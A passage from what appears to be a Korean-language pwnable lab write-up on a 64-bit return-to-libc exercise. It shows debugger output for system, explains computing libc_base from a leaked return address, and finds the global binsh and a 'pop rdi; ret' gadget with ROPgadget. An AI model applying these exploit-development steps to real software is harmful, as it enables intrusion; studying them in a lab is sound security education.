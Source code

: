 ```sh
gef➤  disas system
Dump of assembler code for function __libc_system:
   0x0000000000050d70 <+0>:	endbr64 
   0x0000000000050d74 <+4>:	test   rdi,rdi
   0x0000000000050d77 <+7>:	je     0x50d80 <__libc_system+16>
   0x0000000000050d79 <+9>:	jmp    0x50900 <do_system>
   ...
End of assembler dump.
gef➤  
```

하지만 첫 번째 입출력에서 main 함수의  leak한 ret주소와 `__libc_start_call_main`+128의 주소는 서로 다름
왜냐하면 전자는 실행 중 주소이고, 후자는 라이브러리 상의 주소로, 메모리에 적재되기 이전 주소이기 때문
즉, 이 정보들을 이용해 라이브러리의 시작 위치 libc_base를 계산할 수 있음

binsh은 전역변수이기 때문에 다음과 같이 구할 수 있음
```sh
gef➤  info variables 
All defined variables:

Non-debugging symbols:
...
0x0000000000404010  data_start
0x0000000000404018  __dso_handle
0x0000000000404020  binsh
0x0000000000404028  __TMC_END__
0x0000000000404028  __bss_start
0x0000000000404028  _edata
0x0000000000404028  completed
0x0000000000404030  _end
gef➤  
```

마지막으로 지금 상황에 적절한 가젯을 찾아야 하는데, `system`함수에 첫 번째 인자에 대한 설정만 해주면 되므로,
`pop rdi; ret` 형태의 가젯을 찾으면 됨(0x000000000002a3e5)
```sh
┌──(foo1㉿main-server)-[~/Desktop/kknock/Pwnable/rtl_64]
└─$ ROPgadget --binary /lib/x86_64-linux-gnu/libc.so.6|grep "pop rdi"
0x00000000000ba2f4 : adc byte ptr [rsi + 0xf], ah ; outsd dx, dword ptr [rsi] ; pop rdi ; and byte ptr [rsi + 0xf], ah ; out dx, eax ; jmp 0x677ab268
0x00000000000ba514 : adc byte ptr [rsi + 0xf], ah ; outsd dx, dword ptr [rsi] ; pop rdi ; and byte ptr [rsi + 0xf], ah ; out dx, eax ; jmp 0x677ab488
0x0000000000125bea : adc esi, dword ptr [rcx + rax - 0x3d] ; xor ebp, ebp ; pop rax ; pop rdi ; call rax
0x000000000010610b : add al, ch ; pop rdi ; and dh, dl ; jmp qword ptr [rsi + 0xf]
0x0000000000162424 : add al, ch ; push rsi ; pop rdi ; in al, dx ; jmp qword ptr [rsi + 0xf]
0x00000000001723cc : add al, ch ; scasb al, byte ptr [rdi] ; pop rdi ; jmp 0x1723d1
...
0x0000000000175b44 : pop rdi ; pop r8 ; mov r14, rax ; jmp 0x175a42
0x000000000002a745 : pop rdi ; pop rbp ; ret
0x000000000002a3e5 : pop rdi ; ret
0x00000000000eb96d : pop rdi ; retf
0x000000000004c75f : pop rdi ; sbb dword ptr [rax], eax ; jmp 0x4b810
0x00000000000f79cf : pop rdi ; sete cl ; or eax, ecx ; jmp 0xf7965
0x00000000000f7b25 : pop rdi ; sete dl ; or eax, edx ; jmp 0xf7ab3
...
```
